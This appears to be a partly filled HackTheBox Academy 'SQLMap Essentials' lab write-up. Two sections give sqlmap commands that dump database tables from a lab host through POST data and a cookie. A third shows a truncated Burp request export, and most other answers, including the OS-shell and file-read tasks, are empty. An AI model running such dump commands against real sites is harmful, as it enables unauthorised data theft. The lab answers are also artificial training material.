 # [HTB] SQLMap Essentials


## Running SQLMap on an HTTP Request

>**Q. What's the contents of table flag2? (Case #2)**
```bash
sqlmap 'http://94.237.62.6:47094/case2.php' --data 'id=1' --batch --dump
```
>**Q. What's the contents of table flag3? (Case #3)**
```bash
sqlmap -u "http://94.237.62.6:47094/case3.php" --cookie='id=1*' --batch --dump
```
>**Q. What's the contents of table flag4? (Case #4)**
```xml
<?xml version="1.0"?>
<!DOCTYPE items [
<!ELEMENT items (item*)>
<!ATTLIST items burpVersion CDATA "">
<!ATTLIST items exportTime CDATA "">
<!ELEMENT item (time, url, host, port, protocol, method, path, extension, reque>
<!ELEMENT time (#PCDATA)>
<!ELEMENT url (#PCDATA)>
<!ELEMENT host (#PCDATA)>
<!ATTLIST host ip CDATA "">
<!ELEMENT port (#PCDATA)>
<!ELEMENT protocol (#PCDATA)>
<!ELEMENT method (#PCDATA)>
<!ELEMENT path (#PCDATA)>
<!ELEMENT extension (#PCDATA)>
<!ELEMENT request (#PCDATA)>
<!ATTLIST request base64 (true|false) "false">
<!ELEMENT status (#PCDATA)>
<!ELEMENT responselength (#PCDATA)>
<!ELEMENT mimetype (#PCDATA)>
<!ELEMENT response (#PCDATA)>
<!ATTLIST response base64 (true|false) "false">
<!ELEMENT comment (#PCDATA)>
]>
<items burpVersion="2023.1.2" exportTime="Fri Jul 14 10:53:44 CEST 2023">
  <item>
    <time>Fri Jul 14 10:52:04 CEST 2023</time>
    <url><![CDATA[http://94.237.62.6:47094/case4.php]]></url>
    <host ip="94.237.62.6">94.237.62.6</host>
    <port>47094</port>
    <protocol>http</protocol>
    <method><![CDATA[POST]]></method>
    <path><![CDATA[/case4.php]]></path>
    <extension>php</extension>
    <request base64="true"><![CDATA[UE9TVCAvY2FzZTQucGhwIEhUVFAvMS4xDQpIb3N0OiA>
    <status>200</status>
    <responselength>455</responselength>
    <mimetype>HTML</mimetype>
    <response base64="true"><![CDATA[SFRUUC8xLjEgMjAwIE9LDQpEYXRlOiBGcmksIDE0IE>
    <comment></comment>
  </item>
</items>
```

```bash

```

## Attack Tuning

>**Q. What's the contents of table flag5? (Case #5)**

```bash

```

>**Q. What's the contents of table flag6? (Case #6)**

```bash

```

>**Q. What's the contents of table flag7? (Case #7)**

```bash

```

## Database Enumeration

>**Q. What's the contents of table flag1 in the testdb database? (Case #1)**



## Advanced Database Enumeration

>**Q. What's the name of the column containing "style" in it's name? (Case #1)**

```bash

```

>**Q. What's the Kimberly user's password? (Case #1)**

```bash

```

## Bypassing Web Application Protections

>**Q. What's the contents of table flag8? (Case #8)**

```bash

```
 
>**Q. What's the contents of table flag9? (Case #9)**

```bash

```

>**Q. What's the contents of table flag10? (Case #10)**

```bash

```

>**Q. What's the contents of table flag11? (Case #11)**

```bash

```

## OS Exploitation

>**Q. Try to use SQLMap to read the file "/var/www/html/flag.txt".**

```bash

```

>**Q. Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.**

```bash

```

## Skills Assessment

>**Q. What's the contents of table final_flag?**

```bash

```
